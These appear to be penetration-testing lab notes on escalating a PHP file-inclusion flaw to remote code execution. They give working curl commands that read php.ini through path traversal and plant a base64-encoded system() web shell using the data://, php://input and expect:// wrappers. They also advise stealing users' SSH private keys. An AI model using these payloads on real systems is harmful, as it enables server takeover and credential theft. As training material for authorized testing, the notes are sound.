 # Remote Code Execution

## PHP Wrappers

One easy and common method for gaining control over the back-end server is by enumerating user credentials and SSH keys, and then use those to login to the back-end server through SSH or any other remote session.

First we can check the `.ssh` directory in each user's home directory to grab their private key (`id_rsa`) and use it to SSH into the system.

***

The [data](https://www.php.net/manual/en/wrappers.data.php) wrapper can be used to include external data, including PHP code if the (`allow_url_include`) setting is enabled in the PHP configurations

PHP conf Apache: `/etc/php/X.Y/apache2/php.ini`

PHP conf Nginx: `/etc/php/X.Y/fpm/php.ini` where `X.Y` is your install PHP version

```shell-session
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

`grep` for `allow_url_include ->`

```shell-session
ElFelixi0@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

Now to gain RCE ->

```shell-session
echo '<?php system($_GET["cmd"]); ?>' | base64
```

Then with the base64 value we call the data wrapper:

```
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

Or in curl:

```shell-session
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

***

the [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code but the difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a POST request's data

To repeat our earlier attack but with the `input` wrapper, we can send a POST request to the vulnerable URL and add our web shell as POST data.

```shell-session
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

***

the [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper allows us to directly run commands through URL streams

it needs to be manually installed and enabled on the back-end server so this time we need to `grep` for `expect`

```shell-session
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
```

And if it's on , we can exploit this like this:

```shell-session
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

_**Try to gain RCE using one of the PHP wrappers and read the flag at /**_

```
curl "http://94.237.59.63:52729/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

<figure><img src="../../../.gitbook/assets/image (1381).png" alt=""><figcaption></figcaption></figure>

```
<SNIP>%3D&cmd=ls%20-al"
```

<figure><img src="../../../.gitbook/assets/image (1382).png" alt=""><figcaption></figcaption></figure>

